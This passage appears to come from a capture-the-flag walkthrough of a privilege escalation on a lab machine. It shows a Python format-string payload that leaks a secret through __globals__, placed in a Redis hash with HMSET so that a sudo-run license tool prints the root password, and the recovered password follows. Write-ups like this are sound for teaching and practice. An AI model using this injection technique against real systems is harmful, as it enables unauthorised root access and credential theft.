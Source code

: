 how to exfiltrate the secret_value:

```python
print("The secret is {dirInfo.__init__.__globals__[SECRET_VALUE]}".
    format(dirInfo=DirData()))
```

try run license with tag -p which is username

```bash
cooper@format:/dev/shm$ sudo /usr/bin/license -p cooper

User does not exist. Please provide valid username.
```

output: **username doesnt exist**, it is possible to use **redis** again to extract a `secret_encoded`. we can use [HMSET](https://redis.io/commands/hmset/) command to Sets the specified fields to their respective values in the hash stored at `key`.

Execute command below will get the password root user

```bash
HMSET bunnys first-name "{license.__init__.__globals__[secret_encoded]}" last-name bunnys username bunnys
```

![](/assets/img/format/12.png)

then run again `/usr/bin/licens -p bunnys`

![](/assets/img/format/13.png)

get the password, and switch into root user using `su` command

```bash
unCR4ckaBL3Pa$$w0rd
```
